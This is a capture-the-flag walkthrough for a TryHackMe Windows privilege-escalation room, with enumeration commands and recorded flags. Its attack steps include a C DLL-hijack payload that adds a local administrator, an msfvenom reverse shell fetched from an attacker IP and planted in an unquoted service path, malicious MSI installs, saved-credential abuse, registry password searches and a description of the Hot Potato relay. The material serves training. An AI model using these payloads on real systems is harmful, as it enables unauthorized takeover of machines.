 # Windows Privesc

{% embed url="https://tryhackme.com/room/winprivesc" %}
https://tryhackme.com/room/winprivesc
{% endembed %}

## Task 2 Information Gathering

#### List users on the target system. One of them resembles a flag.

```bash
net users
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-17-17.png>)

{% hint style="success" %}
`THM-17213`
{% endhint %}

#### What is the OS version of the target machine?

```bash
systeminfo | findstr /B /C:"OS"
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-18-44.png>)

{% hint style="success" %}
`10.0.17763 N/A Build 17763`
{% endhint %}

#### When was security update KB4562562 installed?

```bash
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr KB4562562
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-20-33.png>)

{% hint style="success" %}
`6/10/2020`
{% endhint %}

#### What is the state of Windows Defender?

```bash
sc query windefend
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-23-25.png>)

{% hint style="success" %}
`STOPPED`
{% endhint %}

## Task 4 Vulnerable Software

#### What version of a Fitbit application can you see installed?

```bash
wmic product get name,version,vendor
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-41-31.png>)

{% hint style="success" %}
`2.0.1.6782`
{% endhint %}

#### What kind of vulnerability seems to affect the Fitbit application?

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-42-19.png>)

{% hint style="success" %}
`Unquoted Service Path`
{% endhint %}

#### What version of FoxitReader is installed on the target system?

```bash
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate `
| Format-Table –AutoSize
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-48-15.png>)

{% hint style="success" %}
`9.0.1.1049`
{% endhint %}

## Task 5 DLL Hijacking

![](<../../.gitbook/assets/image (7) (1).png>)

#### Replicate the example explained above on the target machine.&#x20;

```bash
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc hijackme.c -shared -o /var/www/html/hijackme.dll    
```

#### Modify the payload to change the password of the user jack

```bash
wget http://10.6.9.176/hijackme.dll -OutFile hijackme.dll
sc stop dllsvc & sc start dllsvc 
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-08-15.png>)

#### Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-09-16.png>)

{% hint style="success" %}
`THM-8377492093`
{% endhint %}

## Task 6 Unquoted Service Path

we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1. Being able to write to a folder on the path
2. Being able to restart the service

#### What is the full unquoted path of unquotedsvc

```bash
wmic service get name,displayname,pathname,startmode
sc qc unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-24-15.png>)

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
{% endhint %}

#### Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

```bash
Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-29-44.png>)

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service`
{% endhint %}

#### What would be the name of the executable you would place in that folder?

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.9.176 -f exe \
         -o /var/www/html/unquotedpathservice.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-32-25.png>)

```bash
cd C:\Program Files\Unquoted Path Service
wget http://10.6.9.176/unquotedpathservice.exe -OutFile common.exe
sc.exe stop unquotedsvc; sc.exe start unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-46-00.png>)

{% hint style="success" %}
`common.exe`
{% endhint %}

#### Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

```bash
dir /S flagUSP.txt
type C:\Users\Cora\Documents\flagUSP.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-55-56.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-56-32.png>)

{% hint style="success" %}
`THM-636729273483`
{% endhint %}

## Task 7 Token Impersonation

Higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation".

### Hot Potato

* Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.&#x20;
* Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.&#x20;
* Step 3: The target system will ask for a proxy configuration file (wpad.dat).&#x20;
* Step 4: A malicious wpad.dat file is sent to the target.

![](<../../.gitbook/assets/image (8) (1).png>)

* Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).&#x20;
* Step 6: The exploit will ask the target system to perform an NTLM authentication.&#x20;
* Step 7: The target system sends an NTLM handshake.&#x20;
* Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

![](<../../.gitbook/assets/image (6).png>)

## Task 8 Quick Wins

* **Scheduled Tasks**
*   **AlwaysInstallElevated**

    ```
    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    ```

    ```
    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    ```
* Passwords
*   Saved Credentials

    ```
    cmdkey /list
    runas /savecred /user:admin reverse_shell.exe
    ```
*   **Registry keys**

    ```
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    ```
* **Unattend files**
  * Unattend.xml files helps system administrators setting up Windows systems.

## Reference

{% embed url="https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order" %}

{% embed url="https://steflan-security.com/windows-privilege-escalation-dll-hijacking" %}
